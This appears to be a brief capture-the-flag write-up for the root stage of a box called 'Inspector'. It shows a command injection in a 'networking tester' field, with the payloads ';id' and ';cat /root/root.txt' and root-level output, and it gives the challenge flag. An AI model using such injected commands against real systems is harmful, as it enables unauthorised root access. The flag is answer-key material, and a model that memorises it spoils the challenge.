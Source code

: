 # Inspector (root)

After we complete user, we are given networking tester.

Giving this something like `;id` will return the following:
```
uid=0(root) gid=0(root) groups=0(root)
```

So we can see that we have a simple command injection.


Getting the flag can be done with:

```
;cat /root/root.txt
````

Or something like a reverse shell.


The flag:

```
ctf{my_first_reverse_shell_super1337}
```
